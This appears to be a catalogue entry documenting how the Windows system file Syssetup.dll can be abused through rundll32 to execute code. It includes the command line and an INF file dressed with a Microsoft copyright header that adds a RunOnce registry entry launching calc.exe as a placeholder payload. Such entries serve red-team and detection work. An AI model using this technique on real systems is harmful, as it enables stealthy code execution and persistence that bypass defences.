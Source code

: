 ## Syssetup.dll

* Functions: Execute

```
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 c:\temp\calc.INF
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken
* Matt harr0ey - @harr0ey  

Code sample:
* 

Resources:
* https://twitter.com/pabraeken/status/994392481927258113
* https://twitter.com/harr0ey/status/975350238184697857

Full path:
```
c:\windows\system32\Syssetup.dll
c:\windows\sysWOW64\Syssetup.dll
```

Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```



Detection:

 
MITRE ATT&CK:
* [Rundll32](https://attack.mitre.org/wiki/Technique/T1085)
